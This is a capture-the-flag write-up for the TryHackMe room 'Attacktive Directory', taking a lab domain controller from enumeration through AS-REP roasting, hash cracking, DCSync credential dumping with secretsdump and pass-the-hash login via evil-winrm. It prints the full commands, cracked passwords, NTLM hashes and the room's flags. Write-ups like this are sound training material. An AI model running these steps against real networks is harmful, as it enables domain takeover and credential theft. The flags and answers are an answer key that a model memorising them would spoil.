

# Attacktive Directory

99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

# [Task 2] Impacket Installation

**Introduction**

So you're likely here if you've had issues with Impacket. Impacket is moderately frustrating to say the least... A lot of people have issues with it, so let's walk through the Impacket install process!

**Installing Impacket**

First, you'll want to clone the repo with:

~~~
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
~~~

This will clone Impacket to `/opt/impacket/`, after the repo is cloned, you will notice several install related files, `requirements.txt`, and `setup.py`. `setup.py` is commonly skipped during the installation. It's key that you DO NOT miss it.

So let's install the requirements:

~~~
pip3 install -r /opt/impacket/requirements.txt
~~~

Once all the python modules are installed, we can then run the python setup install script:

~~~
cd /opt/impacket/ && python3 ./setup.py install
~~~

After that, Impacket should be correctly installed now and it should be ready to use!

# [Task 3] Enumerate the DC

**Initial note**

Flags for each user account are available for submission. You can retrieve the flags for user accounts via RDP (Note: the login format is spookysec.local/User at the Window's login prompt) and Administrator via Evil-WinRM.

Basic enumeration tactics will yield a number of ports open. Using a popular enumeration tool that's built on Linux 4 Windows will reveal some information, not a lot to work with however.

## #3.1 - How many ports are open under 10,000? (Note it may take up to 5 minutes for all the services to start)

*Hint: If Windows is being Windows, there should be 11 ports open.*

~~~
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-06-20T13:12:57+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-04-03T18:40:09
|_Not valid after:  2020-10-03T18:40:09
|_ssl-date: 2020-06-20T13:13:12+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49799/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=6/20%Time=5EEE0AD5%P=x86_64-redhat-linux-gnu%r(
SF:DNSVersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07vers
SF:ion\x04bind\0\0\x10\0\x03");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-06-20T13:12:58
|_  start_date: N/A
~~~

I found 10 open ports under 10,000 but the expected answer is `11`.

## #3.2 - What tool will allow us to enumerate port 139/445?

Answer: `enum4linux`

## #3.3 - What is the NetBIOS-Domain Name of the machine?

~~~
$ enum4linux.pl 10.10.104.142

[REDACTED]

 ============================================ 
|    Getting domain SID for 10.10.104.142    |
 ============================================ 
Use of uninitialized value $global_workgroup in concatenation (.) or string at /data/src/enum4linux-0.8.9/enum4linux.pl line 359.
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)
~~~

Answer: `THM-AD`

## #3.4 - What invalid TLD do people commonly use for their Active Directory Domain?

*Hint: Spoiler: The full AD domain is spookysec.local*

Answer: `.local`

# [Task 4] Enumerate the DC Pt 2

**Introduction**

A whole host of other services are running, including Kerberos. Kerberos is a key authentication service within Active Directory. With this port open, we can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute/releases) (by Ronnie Flathers @ropnop) to brute force discovery of users, passwords and even password spray!

**Enumeration**

For this box, a modified [User List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) and [Password List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) will be used to cut down on time of enumeration of users and password hash cracking. It is NOT recommended to brute force credentials due to account lockout policies that we cannot enumerate on the domain controller.

## #4.1 - What command within Kerbrute will allow us to enumerate valid usernames?

*Hint: `./kerbrute -h` may help you*

Answer: `userenum`

## #4.2 - What notable account is discovered? (These should jump out at you)

Add the following line to your `/etc/hosts` file:

~~~
10.10.104.142 spookysec.local
~~~

And run `kerbrute`:

~~~
$ ./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/20/20 - Ronnie Flathers @ropnop

2020/06/20 15:45:40 >  Using KDC(s):
2020/06/20 15:45:40 >  	spookysec.local:88

2020/06/20 15:45:40 >  [+] VALID USERNAME:	 james@spookysec.local
2020/06/20 15:45:40 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2020/06/20 15:45:41 >  [+] VALID USERNAME:	 James@spookysec.local
2020/06/20 15:45:41 >  [+] VALID USERNAME:	 robin@spookysec.local
2020/06/20 15:45:43 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2020/06/20 15:45:45 >  [+] VALID USERNAME:	 administrator@spookysec.local
2020/06/20 15:45:48 >  [+] VALID USERNAME:	 backup@spookysec.local

[REDACTED]
~~~

Answer: `svc-admin`

## #4.3 - What is the other notable account is discovered? (These should jump out at you)

Answer: `backup`

# [Task 5] Exploiting Kerberos

**Introduction**

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

**Exploitation**

[Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called `GetNPUsers.py` (located in `Impacket/Examples/GetNPUsers.py`) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

## #5.1 - We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

Kerberos pre-authentication has been disabled for `svc-admin`:

~~~
$ GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.104.142
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9e9d37205ca2b017be8b60ae4decc7d8$4d81d588e53cd91588752a3d06537c32d95b9e71c8ad9000bfb2442ae8fdd36a7448fca372decebd0d6ef2a0020b5eea2d690503018447cbd9422ff59fe0aa62777c8840112179b56a1971f083ca17ef83a29d4815f86c3c5836420de128f7c9d6975bd367c02b2f22ce506b61ce0ebaa2a664b59fa40a7fa1d04db8654d62c3f09c803025e270ef112a2f833b4e2d8bc1fe756d58fa734277b25b77e521e57a7a77dc19d517a692704f5c68a5593f552bacc82202f44fecf34ddf36f97ed54d65432eef3739fad5b9ce14fbf81b306503b0191dd3eda6ed3e7ade34bb37cc1b3ee16b240369df8fb7cb79d367bee2c66b2c
~~~

But not for `backup`:

~~~
$ GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.104.142
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
~~~

Answer: `svc-amin`

## #5.2 - Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

*Hint: https://hashcat.net/wiki/doku.php?id=example_hashes and searching for the first part will help!*

Searching for the string `krb5asrep` on the [hashcat hashtype page](https://hashcat.net/wiki/doku.php?id=example_hashes) reveals that the hash has the following type:

* Hash mode: 18200
* Hash name: Kerberos 5 AS-REP etype 23

Answer: `Kerberos 5 AS-REP etype 23`

## #5.3 - What mode is the hash?

Answer: `18200`

## #5.4 - Now crack the hash with the modified password list provided, what is the user accounts password?

~~~
$ hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt 
hashcat (v5.1.0) starting...

[REDACTED]

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:d2c7d46d6[REDACTED]92d7576bad:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:d2c7d46d607...576bad
Time.Started.....: Sat Jun 20 14:39:17 2020 (15 secs)
Time.Estimated...: Sat Jun 20 14:39:32 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   411.8 kH/s (12.40ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 5840896/14344385 (40.72%)
Rejected.........: 0/5840896 (0.00%)
Restore.Point....: 5832704/14344385 (40.66%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: mandj4e -> mamitaraquel

Started: Sat Jun 20 14:39:03 2020
Stopped: Sat Jun 20 14:39:32 2020
~~~

The password is `management2005`

# [Task 6] Enumerate the DC Pt 3

**Enumeration**

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

## #6.1 - Using utility can we map remote SMB shares?

*Hint: man smbclient will tell you a little bit about the tool!*

Using smbclient with the , we are able to list remote shares:

~~~
$ smbclient -U spookysec.local/svc-admin -L //10.10.104.142
Enter SPOOKYSEC.LOCAL\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
~~~

Answer: `smbclient`

## #6.2 - Which option will list shares?

*Hint: man smbclient will tell you a little bit about the tool!*

Answer: `-L`

## #6.3 - How many remote shares is the server listing?

Answer: `6`

## #6.4 - There is one particular share that we have access to that contains a text file. Which share is it?

Let's connect to the `backup` share and list the files:

~~~
$ smbclient -U spookysec.local/svc-admin //10.10.104.142/backup
Enter SPOOKYSEC.LOCAL\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 19:08:39 2020
  ..                                  D        0  Sat Apr  4 19:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020

		8247551 blocks of size 4096. 5269591 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (4.3 KiloBytes/sec) (average 4.3 KiloBytes/sec)
smb: \>
~~~

## #6.5 - What is the content of the file?

*Hint: The encoded contents of the file*

The text file contains base64 encoded credentials:

~~~
$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
~~~

## #6.6 - Decoding the contents of the file, what is the full contents?

Decoding the base64 string reveals the credentials:

~~~
$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
~~~

# [Task 7] Elevating Privileges

**Introduction**

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

Knowing this, we can use another tool within Impacket called `secretsdump.py`. This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

## #7.1 - What method allowed us to dump NTDS.DIT?

*Hint: Read the secretsdump output!*

~~~
$ secretsdump.py -dc-ip 10.10.104.142 spookysec.local/backup:backup2517860@10.10.104.142
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:209193215e7cb3a8579257644d088ffc:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c431e7e3555aeb5b63cbdfee3024d56f4b7f10eaba6c3f94d9a1524e76a26a49
Administrator:aes128-cts-hmac-sha1-96:f955ac2d89620b2a8dcd9837105445ff
Administrator:des-cbc-md5:6d5edfa173d9d6ae
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:35383a0556fcf1c00fde0212d16736953c23b69f2c4ebc76dd519db41b472482
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:17f09fb2e5c8b105143d6479ec32087b
ATTACKTIVEDIREC$:des-cbc-md5:9426b6febf6dc2ab
[*] Cleaning up... 
~~~

In the above output, we can read that the `DRSUAPI` method allows to get the `NTDS.DIT` secrets.

~~~
[*] Using the DRSUAPI method to get NTDS.DIT secrets
~~~

Answer: `DRSUAPI`

## #7.2 - What is the Administrators NTLM hash?

Here is the extract regarding the `administrator` account:

~~~
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
~~~

The NTLM hash is `e4876a80a723612986d7609aa5ebc12b`

## #7.3 - What method of attack could allow us to authenticate as the user without the password?

Answer: `pass the hash`

## #7.4 - Using a tool called Evil-WinRM what option will allow us to use a hash?

*Hint: if Evil-WinRM is not installed, you can do so by issuing `gem install evil-winrm`*

We can pass the administrator's password NTLM hash directly to `evil-winrm` to login without knowing the password.

~~~
$ evil-winrm -i 10.10.104.142 -u administrator -H e4876a80a723612986d7609aa5ebc12b

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd \users
*Evil-WinRM* PS C:\Users> more svc-admin\desktop\user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}

*Evil-WinRM* PS C:\Users> more backup\desktop\PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}

*Evil-WinRM* PS C:\Users> more administrator\desktop\root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
~~~

Answer: `-H`

# [Task 8] Flags

Submit the flags for each user account. They can be located on each user's desktop.

If you enjoyed this box, you may also enjoy my [blog post](https://blog.spookysec.net/kerberos-abuse/)!

## #8.1 - svc-admin

Flag: `TryHackMe{K3rb3r0s_Pr3_4uth}`

## #8.2 - backup

Flag: `TryHackMe{B4ckM3UpSc0tty!}`

## #8.3 - Administrator

Flag: `TryHackMe{4ctiveD1rectoryM4st3r}`
